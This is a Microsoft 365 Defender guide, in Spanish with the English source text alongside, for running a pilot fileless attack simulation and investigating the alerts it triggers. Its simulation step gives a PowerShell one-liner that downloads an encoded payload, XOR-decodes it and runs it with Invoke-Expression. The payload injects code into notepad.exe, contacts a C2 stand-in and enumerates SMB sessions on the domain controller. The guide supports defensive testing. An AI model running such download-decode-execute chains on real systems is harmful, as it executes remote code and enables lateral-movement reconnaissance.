# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="e14e9-104">Ejecutar las simulaciones de ataque de Microsoft 365 defender</span><span class="sxs-lookup"><span data-stu-id="e14e9-104">Run your Microsoft 365 Defender attack simulations</span></span>  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="e14e9-105">[](mtp-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="e14e9-105">[](mtp-pilot-plan.md)</span></span><br/>[<span data-ttu-id="e14e9-106">Planeación</span><span class="sxs-lookup"><span data-stu-id="e14e9-106">Planning</span></span>](mtp-pilot-plan.md) |<span data-ttu-id="e14e9-107">[](prepare-mtpeval.md)</span><span class="sxs-lookup"><span data-stu-id="e14e9-107">[](prepare-mtpeval.md)</span></span><br/>[<span data-ttu-id="e14e9-108">Declaración</span><span class="sxs-lookup"><span data-stu-id="e14e9-108">Preparation</span></span>](prepare-mtpeval.md) | <br/><span data-ttu-id="e14e9-110">Simular ataque</span><span class="sxs-lookup"><span data-stu-id="e14e9-110">Simulate attack</span></span>| <span data-ttu-id="e14e9-111">[](mtp-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="e14e9-111">[](mtp-pilot-close.md)</span></span><br/>[<span data-ttu-id="e14e9-112">Cerrar y resumir</span><span class="sxs-lookup"><span data-stu-id="e14e9-112">Close and summarize</span></span>](mtp-pilot-close.md)|
|--|--|--|--|
|| |<span data-ttu-id="e14e9-113">*Ya está aquí.*</span><span class="sxs-lookup"><span data-stu-id="e14e9-113">*You are here!*</span></span> | |

<span data-ttu-id="e14e9-114">Actualmente está en la fase de simulación de ataques.</span><span class="sxs-lookup"><span data-stu-id="e14e9-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="e14e9-115">Después de preparar el entorno piloto, es el momento de probar la administración de incidentes de Microsoft 365 defender y la investigación automatizada y las capacidades de corrección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-115">After preparing your pilot environment, it’s time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="e14e9-116">Le ayudaremos a simular un ataque complejo que aprovecha las técnicas avanzadas para ocultarse de la detección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="e14e9-117">El ataque enumera las sesiones del bloque de mensajes del servidor (SMB) abiertas en los controladores de dominio y recupera las direcciones IP recientes de los dispositivos de los usuarios.</span><span class="sxs-lookup"><span data-stu-id="e14e9-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users’ devices.</span></span> <span data-ttu-id="e14e9-118">Esta categoría de ataques no suele incluir los archivos ubicados en el dispositivo de la víctima, sino que se producen únicamente en la memoria.</span><span class="sxs-lookup"><span data-stu-id="e14e9-118">This category of attacks usually doesn’t include files dropped on the victim’s device—they occur solely in memory.</span></span> <span data-ttu-id="e14e9-119">"Viven en las tierras" mediante el uso de herramientas administrativas y del sistema existentes e insertan su código en procesos de sistema para ocultar su ejecución, dicho comportamiento les permite eludir la detección y persisten en el dispositivo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-119">They “live off the land” by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="e14e9-120">En esta simulación, nuestro escenario de ejemplo comienza con un script de PowerShell.</span><span class="sxs-lookup"><span data-stu-id="e14e9-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="e14e9-121">Se puede engañar a un usuario para que ejecute un script.</span><span class="sxs-lookup"><span data-stu-id="e14e9-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="e14e9-122">O la secuencia de comandos puede ejecutarse desde una conexión remota a otro equipo desde un dispositivo previamente infectado: el atacante intenta moverse más adelante en la red.</span><span class="sxs-lookup"><span data-stu-id="e14e9-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="e14e9-123">La detección de estos scripts puede ser difícil porque los administradores también suelen ejecutar scripts de forma remota para llevar a cabo varias actividades administrativas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="e14e9-125">Durante la simulación, el ataque inyecta shellcode en un proceso aparentemente inocente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="e14e9-126">El escenario requiere el uso de notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e14e9-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="e14e9-127">Elegimos este proceso para la simulación, pero los atacantes podrían dirigirse a un proceso del sistema de ejecución prolongada, como svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="e14e9-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="e14e9-128">A continuación, el shellcode se pone en contacto con el servidor de comandos y control (C2) del atacante para recibir instrucciones sobre cómo continuar.</span><span class="sxs-lookup"><span data-stu-id="e14e9-128">The shellcode then goes on to contact the attacker’s command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="e14e9-129">El script intenta ejecutar consultas de reconocimiento en el controlador de dominio (DC).</span><span class="sxs-lookup"><span data-stu-id="e14e9-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="e14e9-130">El reconocimiento permite que un atacante obtenga información sobre la información reciente de inicio de sesión del usuario.</span><span class="sxs-lookup"><span data-stu-id="e14e9-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="e14e9-131">Una vez que los atacantes tengan esta información, pueden avanzar más adelante en la red para llegar a una cuenta sensible específica</span><span class="sxs-lookup"><span data-stu-id="e14e9-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

>[!IMPORTANT]
><span data-ttu-id="e14e9-132">Para obtener resultados óptimos, siga las instrucciones de simulación de ataque lo más parecida posible.</span><span class="sxs-lookup"><span data-stu-id="e14e9-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>


## <a name="simulation-environment-requirements"></a><span data-ttu-id="e14e9-133">Requisitos del entorno de simulación</span><span class="sxs-lookup"><span data-stu-id="e14e9-133">Simulation environment requirements</span></span>

<span data-ttu-id="e14e9-134">Como ya ha configurado el entorno piloto durante la fase de preparación, asegúrese de que dispone de dos dispositivos para este escenario: un dispositivo de prueba y un controlador de dominio.</span><span class="sxs-lookup"><span data-stu-id="e14e9-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1.  <span data-ttu-id="e14e9-135">Compruebe que el inquilino haya [habilitado Microsoft 365 defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="e14e9-135">Verify your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>

2.  <span data-ttu-id="e14e9-136">Compruebe la configuración del controlador de dominio de prueba:</span><span class="sxs-lookup"><span data-stu-id="e14e9-136">Verify your test domain controller configuration:</span></span>

    - <span data-ttu-id="e14e9-137">El dispositivo se ejecuta con Windows Server 2008 R2 o una versión posterior.</span><span class="sxs-lookup"><span data-stu-id="e14e9-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
    - <span data-ttu-id="e14e9-138">El controlador de dominio de prueba [de Microsoft defender para la identidad](https://docs.microsoft.com/azure/security-center/security-center-wdatp) y habilitar la [administración remota](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span><span class="sxs-lookup"><span data-stu-id="e14e9-138">The test domain controller to [Microsoft Defender for Identity](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>    
    - <span data-ttu-id="e14e9-139">Compruebe que se hayan habilitado [Microsoft defender para la integración de Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) .</span><span class="sxs-lookup"><span data-stu-id="e14e9-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) have been enabled.</span></span>
    - <span data-ttu-id="e14e9-140">Se crea un usuario de prueba en el dominio; no se necesitan permisos de administrador.</span><span class="sxs-lookup"><span data-stu-id="e14e9-140">A test user is created on your domain – no admin permissions needed.</span></span>

3.  <span data-ttu-id="e14e9-141">Compruebe la configuración del dispositivo de prueba:</span><span class="sxs-lookup"><span data-stu-id="e14e9-141">Verify test device configuration:</span></span>
 
    1.  <span data-ttu-id="e14e9-142">El dispositivo se ejecuta con Windows 10 versión 1903 o una versión posterior.</span><span class="sxs-lookup"><span data-stu-id="e14e9-142">Device runs with Windows 10 version 1903 or a later version.</span></span>
    
    1.  <span data-ttu-id="e14e9-143">El dispositivo de prueba se une al dominio de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-143">Test device is joined to the test domain.</span></span>
    
    1.  <span data-ttu-id="e14e9-144">[Activa el antivirus de Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="e14e9-144">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="e14e9-145">Si tienes problemas para habilitar antivirus de Windows Defender, consulta este [tema de solución de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="e14e9-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    
    1.  <span data-ttu-id="e14e9-146">Compruebe que el dispositivo de prueba se [incorpora a Microsoft defender para el punto de conexión](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="e14e9-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="e14e9-147">Si usa un inquilino existente e implementa grupos de dispositivos, cree un grupo de dispositivos dedicado para el dispositivo de prueba y arrástrelo al nivel superior de la experiencia de usuario de configuración.</span><span class="sxs-lookup"><span data-stu-id="e14e9-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="e14e9-148">Ejecutar la simulación</span><span class="sxs-lookup"><span data-stu-id="e14e9-148">Run the simulation</span></span>

<span data-ttu-id="e14e9-149">Para ejecutar la simulación de escenario de ataque:</span><span class="sxs-lookup"><span data-stu-id="e14e9-149">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="e14e9-150">Inicie sesión en el dispositivo de prueba con la cuenta de usuario de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-150">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="e14e9-151">Abra una ventana de Windows PowerShell en el dispositivo de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-151">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="e14e9-152">Copie el siguiente script de simulación:</span><span class="sxs-lookup"><span data-stu-id="e14e9-152">Copy the following simulation script:</span></span>

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > <span data-ttu-id="e14e9-153">Si abre este documento en un explorador Web, es posible que surjan problemas para copiar el texto completo sin perder determinados caracteres o introducir saltos de línea adicionales.</span><span class="sxs-lookup"><span data-stu-id="e14e9-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="e14e9-154">Descargue este documento y ábralo en Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="e14e9-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="e14e9-155">En el símbolo del sistema, pegue y ejecute el script copiado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-155">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-156">Si está ejecutando PowerShell con el protocolo de escritorio remoto (RDP), use el comando tipo de texto del portapapeles en el cliente RDP porque es posible que la tecla de método rápido **Ctrl-V** o el método de pegar clic con el botón secundario no funcionen.</span><span class="sxs-lookup"><span data-stu-id="e14e9-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="e14e9-157">Las versiones recientes de PowerShell también no aceptarán ese método, es posible que deba copiar en la memoria el Bloc de notas en primer lugar, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.</span><span class="sxs-lookup"><span data-stu-id="e14e9-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="e14e9-158">Unos segundos más tarde, se abrirá <i>notepad.exe</i> .</span><span class="sxs-lookup"><span data-stu-id="e14e9-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="e14e9-159">Un código de ataque simulado se insertará en notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e14e9-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="e14e9-160">Mantenga abierta la instancia de Bloc de notas generada automáticamente para experimentar todo el escenario.</span><span class="sxs-lookup"><span data-stu-id="e14e9-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="e14e9-161">El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando el servidor C2) y, a continuación, intentará el reconocimiento con el controlador de dominio a través de SMB.</span><span class="sxs-lookup"><span data-stu-id="e14e9-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="e14e9-162">Verá un mensaje mostrado en la consola de PowerShell cuando se complete este script.</span><span class="sxs-lookup"><span data-stu-id="e14e9-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

<span data-ttu-id="e14e9-163">Para ver la característica de respuesta y incidente automatizada en acción, mantenga abierto el proceso de notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e14e9-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="e14e9-164">Verá que el incidente y la respuesta automatizadas detienen el proceso de Bloc de notas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>


## <a name="investigate-an-incident"></a><span data-ttu-id="e14e9-165">Investigar un incidente</span><span class="sxs-lookup"><span data-stu-id="e14e9-165">Investigate an incident</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-166">Antes de guiarle a través de esta simulación, vea el siguiente vídeo para ver cómo la administración de incidentes le ayuda a relacionar las alertas relacionadas como parte del proceso de investigación, dónde puede encontrarla en el portal y cómo puede ayudarle en las operaciones de seguridad:</span><span class="sxs-lookup"><span data-stu-id="e14e9-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="e14e9-167">Al cambiar al punto de vista del analista de SOC, ahora puede empezar a investigar el ataque en el portal del centro de seguridad de Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="e14e9-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span> 

1.  <span data-ttu-id="e14e9-168">Abra la cola de incidentes del [Portal del centro de seguridad 365 de Microsoft](https://security.microsoft.com/incidents) desde cualquier dispositivo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2.  <span data-ttu-id="e14e9-169">Vaya a **incidentes** en el menú.</span><span class="sxs-lookup"><span data-stu-id="e14e9-169">Navigate to **Incidents** from the menu.</span></span> 

    

3.  <span data-ttu-id="e14e9-171">El nuevo incidente para el ataque simulado aparecerá en la cola de incidentes.</span><span class="sxs-lookup"><span data-stu-id="e14e9-171">The new incident for the simulated attack will appear in the incident queue.</span></span>
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="e14e9-173">Investigar el ataque como un incidente único</span><span class="sxs-lookup"><span data-stu-id="e14e9-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="e14e9-174">Microsoft 365 defender correlaciona los análisis y agrega todas las alertas y investigaciones relacionadas de distintos productos en una entidad incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="e14e9-175">Al hacerlo, Microsoft 365 defender muestra una historia de ataque más amplia, lo que permite que el analista de SOC comprenda y responda a amenazas complejas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="e14e9-176">Las alertas generadas durante esta simulación están asociadas con la misma amenaza y, como resultado, se agregan automáticamente como un único incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="e14e9-177">Para ver el incidente:</span><span class="sxs-lookup"><span data-stu-id="e14e9-177">To view the incident:</span></span>

1.  <span data-ttu-id="e14e9-178">Navegue a la cola **incidentes** .</span><span class="sxs-lookup"><span data-stu-id="e14e9-178">Navigate to the **Incidents** queue.</span></span>
 
    

2.  <span data-ttu-id="e14e9-180">Seleccione el elemento más reciente haciendo clic en el círculo situado a la izquierda del nombre del incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="e14e9-181">Un panel lateral muestra información adicional sobre el incidente, incluidas todas las alertas relacionadas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="e14e9-182">Cada incidente tiene un nombre único que lo describe en función de los atributos de las alertas que incluye.</span><span class="sxs-lookup"><span data-stu-id="e14e9-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

    

    <span data-ttu-id="e14e9-184">Las alertas que se muestran en el panel se pueden filtrar en función de los recursos de servicio: Microsoft defender para identidad, seguridad de la aplicación en la nube de Microsoft, Microsoft defender para el punto de conexión, Microsoft 365 defender y Microsoft defender para Office 365.</span><span class="sxs-lookup"><span data-stu-id="e14e9-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>  

3.  <span data-ttu-id="e14e9-185">Seleccione **abrir página incidente** para obtener más información sobre el incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-185">Select **Open incident page** to get more information about the incident.</span></span>

    <span data-ttu-id="e14e9-186">En la página **incidente** , puede ver todas las alertas y la información relacionada con el incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="e14e9-187">La información incluye las entidades y activos implicados en la alerta, el origen de detección de las alertas (Microsoft defender para identidad, EDR) y el motivo por el que se vincularon entre sí.</span><span class="sxs-lookup"><span data-stu-id="e14e9-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="e14e9-188">Revisar la lista de alertas de incidentes muestra la progresión del ataque.</span><span class="sxs-lookup"><span data-stu-id="e14e9-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="e14e9-189">Desde esta vista, puede ver e investigar las alertas individuales.</span><span class="sxs-lookup"><span data-stu-id="e14e9-189">From this view, you can see and investigate the individual alerts.</span></span>

    <span data-ttu-id="e14e9-190">También puede hacer clic en **administrar incidente** en el menú de la derecha, para etiquetar el incidente, asignarlo a sí mismo y agregar comentarios.</span><span class="sxs-lookup"><span data-stu-id="e14e9-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

    

    


### <a name="review-generated-alerts"></a><span data-ttu-id="e14e9-193">Revisar las alertas generadas</span><span class="sxs-lookup"><span data-stu-id="e14e9-193">Review generated alerts</span></span> 

<span data-ttu-id="e14e9-194">Echemos un vistazo a algunas de las alertas generadas durante el ataque simulado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-194">Let’s look at some of the alerts generated during the simulated attack.</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-195">Solo veremos algunas de las alertas generadas durante el ataque simulado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-195">We’ll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="e14e9-196">En función de la versión de Windows y de los productos de Microsoft 365 defender que se ejecutan en el dispositivo de prueba, es posible que vea más alertas que aparecen en un orden ligeramente diferente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>

 


<span data-ttu-id="e14e9-198">**Alerta: se observó la inyección de procesos sospechoso (origen: Microsoft defender para el extremo EDR)**</span><span class="sxs-lookup"><span data-stu-id="e14e9-198">**Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)**</span></span>

<span data-ttu-id="e14e9-199">Los atacantes avanzados usan métodos sofisticados e furtivos para persistir en la memoria y esconderse de las herramientas de detección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="e14e9-200">Una técnica común es operar desde un proceso de sistema de confianza, en lugar de un archivo ejecutable malintencionado, lo que dificulta la detección de herramientas y operaciones de seguridad para detectar el código malintencionado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="e14e9-201">Para permitir que los analistas de SOC detecten estos ataques avanzados, los sensores de memoria profunda de Microsoft defender for Endpoint proporcionan nuestro servicio en la nube con una visibilidad sin precedentes en una variedad de técnicas de inyección de código entre procesos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="e14e9-202">La siguiente figura muestra cómo se ha detectado el defensor para el punto de conexión y se le ha notificado que ha intentado inyectar código para <i>notepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="e14e9-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>

 


<span data-ttu-id="e14e9-204">**Alerta: comportamiento inesperado observado por un proceso ejecutar sin argumentos de línea de comandos (origen: Microsoft defender para el extremo EDR)**</span><span class="sxs-lookup"><span data-stu-id="e14e9-204">**Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)**</span></span>

<span data-ttu-id="e14e9-205">Microsoft defender for Endpoint DETECTIONS a menudo se centra en el atributo más común de una técnica de ataque.</span><span class="sxs-lookup"><span data-stu-id="e14e9-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="e14e9-206">Este método garantiza la durabilidad y eleva la barra para que los atacantes puedan cambiar a tácticas más recientes.</span><span class="sxs-lookup"><span data-stu-id="e14e9-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="e14e9-207">Empleamos algoritmos de aprendizaje a gran escala para establecer el comportamiento normal de los procesos comunes dentro de una organización y en todo el mundo, y ven Cuándo estos procesos muestran comportamientos anómalos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="e14e9-208">Estos comportamientos anómalos suelen indicar que se ha incorporado código extraño y que se están ejecutando en un proceso de confianza de otro tipo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="e14e9-209">Para este escenario, el <i>notepad.exe</i> de proceso presenta un comportamiento anómalo, que implica la comunicación con una ubicación externa.</span><span class="sxs-lookup"><span data-stu-id="e14e9-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="e14e9-210">Este resultado es independiente del método específico que se usa para introducir y ejecutar el código malintencionado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-211">Debido a que esta alerta se basa en los modelos de aprendizaje de máquina que requieren un procesamiento adicional de back-end, puede tardar algún tiempo antes de ver esta alerta en el portal.</span><span class="sxs-lookup"><span data-stu-id="e14e9-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="e14e9-212">Observe que los detalles de la alerta incluyen la dirección IP externa, un indicador que puede usar como pivote para ampliar la investigación.</span><span class="sxs-lookup"><span data-stu-id="e14e9-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="e14e9-213">Seleccione la dirección IP en el árbol de procesos de alerta para ver la página Detalles de la dirección IP.</span><span class="sxs-lookup"><span data-stu-id="e14e9-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>

 

<span data-ttu-id="e14e9-215">La siguiente figura muestra la página de detalles de la dirección IP seleccionada (haciendo clic en dirección IP en el árbol de proceso de alerta).</span><span class="sxs-lookup"><span data-stu-id="e14e9-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="e14e9-216"></span><span class="sxs-lookup"><span data-stu-id="e14e9-216"></span></span>


<span data-ttu-id="e14e9-217">**Alerta: el usuario y el reconocimiento de direcciones IP (SMB) (origen: Microsoft defender para la identidad)**</span><span class="sxs-lookup"><span data-stu-id="e14e9-217">**Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)**</span></span>

<span data-ttu-id="e14e9-218">La enumeración con el protocolo de bloque de mensajes del servidor (SMB) permite a los atacantes obtener información reciente de inicio de sesión de usuario que les ayude a moverse más adelante a través de la red para obtener acceso a una cuenta sensible específica.</span><span class="sxs-lookup"><span data-stu-id="e14e9-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="e14e9-219">En esta detección, se desencadena una alerta cuando se ejecuta la enumeración de sesión SMB en un controlador de dominio.</span><span class="sxs-lookup"><span data-stu-id="e14e9-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>

 


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="e14e9-221">Revisión de la escala de tiempo del dispositivo [Microsoft defender for Endpoint]</span><span class="sxs-lookup"><span data-stu-id="e14e9-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>
